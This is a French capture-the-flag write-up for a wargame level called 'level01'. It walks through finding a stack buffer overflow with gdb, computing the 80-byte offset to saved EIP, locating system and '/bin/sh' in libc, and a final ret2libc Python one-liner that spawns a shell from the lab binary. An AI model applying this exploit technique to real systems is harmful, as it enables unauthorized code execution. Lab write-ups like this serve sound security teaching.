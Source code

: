 # LEVEL 01


Le binaire level01 est composé de 3 fonction et lit 2 fois sur l'entrée standard via **fgets**:

<pre>
verify_user_name
verify_user_pass
main
</pre>

Aucune de ces fonction n'appelle la fonction system ou ne créer de shell, mais la fonction **main** appelle successivement la fonction **verify_user_name** et **verify_user_pass**.

Chaque fonction **verify_** compare les strings récupérées avec:

<pre>
dat_wil => verify_user_name
admin	=> verify_user_pass
</pre>

Le **buffer static** qui stocke le **pass** est nettement inférieur à la taille de la string récupérée dans le second **fgets()**, on peux Overflow la stack grâce a ce buffer.


On cherche si l'on peux écraser **EIP** et si oui à partir de quels octets et combien d'octects en plus nous pouvons écrire:
<pre>
b *main + 169	// Apres le second fgets
run
dat_will		// 1er string
AAAAAAAA		// 2eme string

i f

Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args:
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c

i r

eax            0xffffd6cc       -10548

addr de saved EIP => 0xffffd71c
addr du buffer    => 0xffffd6cc

0xffffd71c - 0xffffd6cc => 0x50 => 80

offset buffer/EIP 80 oct
</pre>

Nous écrasons **EIP** à partir de l'octet 80 et notre buffer fait un taille de 100 octets.

Nous pouvons effectuer un **RET2LIBC**:

<pre>
(gdb) b *main
Breakpoint 1 at 0x80484d0
(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()
(gdb) info proc map
process 1815
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        						...
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
								...
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2b000,0xf7e2c000,"/bin/sh"
Pattern not found.
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.

p system
$1 = {text variable, no debug info} 0xf7e6aed0 system

system 		=> 0xf7e6aed0
"/bin/sh"	=> 0xf7f897ec
</pre>

Nous pouvons donc formater notre exploit de la façon suivante:
<pre>
./level01
"dat_will"
"A*80 + &system + DUMM + &(/bin/sh)"
</pre>

# EXPLOIT
<pre>
SHELL=/bin/sh

(python -c "print 'dat_wil\n' + 'A'*80 + '\xd0\xae\xe6\xf7' + 'DUMM' + '\xec\x97\xf8\xf7'";cat) | ./level01
</pre>